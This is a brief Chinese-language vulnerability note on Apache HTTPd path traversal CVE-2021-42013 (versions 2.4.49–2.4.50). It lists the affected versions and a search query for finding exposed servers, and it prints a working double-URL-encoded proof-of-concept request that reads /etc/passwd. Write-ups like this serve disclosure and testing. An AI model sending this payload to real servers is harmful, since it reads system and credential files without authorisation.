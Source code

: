 # Apache HTTPd 路径穿越漏洞 CVE-2021-42013

# Apache HTTPd 路径穿越漏洞 CVE-2021-42013

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件 （CVE-2021-41773 的漏洞绕过）

## 漏洞影响

```
Apache HTTPd 2.4.49~2.4.50版本
```

## 网络测绘

```
server="Apache/2.4.49"
```

## 漏洞复现

Chorme插件Wappalyzer获取 Apache版本

![image-20220525155347737](/images/202205251553798.png)

验证POC

```
/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

![image-20220525155420331](/images/202205251554399.png)

